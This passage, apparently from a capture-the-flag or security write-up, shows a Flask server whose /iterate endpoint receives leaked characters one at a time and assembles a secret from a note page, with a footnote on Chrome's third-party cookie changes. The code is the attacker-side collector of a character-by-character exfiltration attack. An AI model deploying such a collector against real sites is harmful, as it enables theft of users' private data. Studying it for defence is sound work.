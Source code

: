 ```python
            charset.remove(x)
    print(charset)
    known += charset[0]
    print(known)
    chars = []
    pass

@app.route("/iterate", methods=["GET", "OPTIONS"])
def home():
    global chars
    char = request.args.get("c", "(empty)").replace(known, "")
    ref = request.headers.get("Referer", "")
    print(ref)
    if "/note/" in ref:
        return ""
    if(char == 'CHECK'):
        check_not_exists()
    elif(char == '(empty)'):
        print("SOMETHING WENT WRONG")
    else:
        print(chars)
        chars.append(char)
    return ""

app.run("0.0.0.0", 80)
```

[^1]:  [The next step toward phasing out third-party cookies in Chrome](https://blog.google/products/chrome/privacy-sandbox-tracking-protection/)